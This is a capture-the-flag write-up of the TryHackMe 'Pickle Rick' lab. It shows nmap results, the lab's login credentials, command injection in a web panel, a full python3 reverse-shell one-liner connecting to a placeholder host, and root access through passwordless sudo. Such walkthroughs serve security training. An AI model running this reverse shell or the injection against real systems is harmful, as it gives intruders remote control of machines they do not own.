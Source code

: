                                         #######################
                                        ####      Web      ####
                                        #######################
                                        #####  TryHackMe  #####
                                        ##### Pickle Rick #####
                                        #####  By 0xRar   #####
                                        #######################


## Nmap result :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:4e:a3:4e:5c:f2:0f:6e:8d:2e:a8:0c:3c:9f:d4:ee (RSA)
|   256 95:91:a8:d8:ab:e4:0e:a4:8d:b8:43:27:01:58:b2:c2 (ECDSA)
|_  256 b6:f3:eb:2d:f1:c2:bc:b3:6b:c8:da:50:49:ac:27:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal  Creds :
```
Got the username from the source code
Username: R1ckRul3s

Got the password from robots.txt
Password: Wubbalubbadubdub
```
## Portal (LOGIN)
```
Used gobuster dir to get the login page
MACHINE_IP/portal.php
```

## How did i get in ?
```
The portal page or the command panel was infected with command injection so
i tried to get a rev shell with nc but didint work so i tried python2 didint work
so i tried python3 and it worked, i uploaded linpeas for more information and found out that all users has ((NOPASSWD))
i got root using the command (sudo bash).  
```
## python3 reverse shell :
`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`

## root :
`
sudo bash
`
